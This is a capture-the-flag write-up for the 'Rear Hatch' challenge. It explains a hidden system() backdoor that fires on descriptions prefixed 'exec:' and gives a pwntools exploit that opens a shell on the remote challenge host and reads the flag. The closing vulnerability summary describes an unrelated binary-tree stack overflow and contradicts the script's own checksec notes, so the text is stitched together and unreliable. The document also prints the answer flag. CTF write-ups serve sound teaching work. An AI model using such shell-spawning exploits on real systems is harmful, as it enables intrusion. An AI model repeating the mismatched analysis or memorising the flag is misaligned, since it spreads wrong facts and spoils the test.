

# Rear Hatch - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:


---

## Challenge Summary

You are presented with a command-line program that manages maintenance requests stored in a file. You can add, view, delete, or mark requests as completed.

The vulnerability lies in the `markRequestCompleted()` function. If a request's description starts with the string `exec:`, the program extracts the following string and passes it to `system()`, allowing command execution.

To exploit it, add a new request with the description:

```
exec:/bin/sh
```

Then choose **option 4** to mark that request as completed. This triggers `system("/bin/sh")`, giving the user a shell.

## Binary Information

```bash
$ file RearHatch
```


```bash
$ pwn checksec RearHatch
```


---

## Static Analysis (CLion - JetBrains)

Reviewing the source in CLion reveals a hidden command execution path in the `markRequestCompleted()` function:

```c
if (requests[i].id == id &&
    (strncmp((char *)requests + i*264 + 4, "\x65\x78\x65\x63\x3a", 5) == 0 ?
     system((char *)requests + i*264 + 9), 1 : 1))
```

### Key Observations:

- `requests` is an array of structs (`MaintenanceRequest`) each 264 bytes in size.
- The comparison checks if the **description** of a request starts with `"exec:"` using `strncmp`.
- If matched, it calls `system()` on the contents of the description starting just after `"exec:"`.

This introduces a **hidden command injection backdoor**: the program will execute arbitrary shell commands embedded in the description field of a request when marked as completed.

---

## Exploit Strategy

To exploit this backdoored logic, you must:

1. **Add a new maintenance request** with the description starting with `exec:` followed by a shell command — e.g.:

   ```
   exec:/bin/sh
   ```

   This is done via **option 1** (Add Maintenance Request).

2. Then choose **option 4** (Mark Request as Completed), and input the ID of the crafted request.

3. When the condition in `markRequestCompleted()` is met, the program detects the `exec:` prefix and executes the remaining string using `system()` — in this case, spawning a shell.

No memory corruption or complex exploitation is needed — it's a hidden **command execution backdoor** triggered via valid program flow.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template RearHatch --host kubenode.mctf.io --port 30014
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'RearHatch')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30014)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.sendline(b'1')
io.sendline(b'exec:/bin/sh')
io.sendline(b'4')
io.recvuntil(b'Enter the ID of the request to mark as completed: ')
io.sendline(b'1')
io.sendline(b'cat flag.txt')
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output


---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
